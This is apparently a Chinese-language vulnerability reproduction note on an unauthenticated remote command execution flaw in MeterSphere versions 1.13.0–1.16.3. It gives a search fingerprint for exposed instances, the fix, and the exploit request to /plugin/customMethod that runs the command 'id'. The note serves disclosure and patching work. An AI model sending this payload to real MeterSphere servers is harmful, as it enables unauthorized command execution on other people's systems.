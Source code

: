 # MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复。

## 漏洞影响

```
MeterSphere v1.13.0 - v1.16.3
```

## 网络测绘

```
body="MeterSphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```
https://github.com/metersphere/metersphere/pull/9140/files
```

![image-20230424163652968](images/image-20230424163652968.png)

查看文件 /backend/src/main/java/io/metersphere/controller/PluginController.java

![image-20230424163710253](images/image-20230424163710253.png)

发送请求包

```
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![image-20230424163729245](images/image-20230424163729245.png)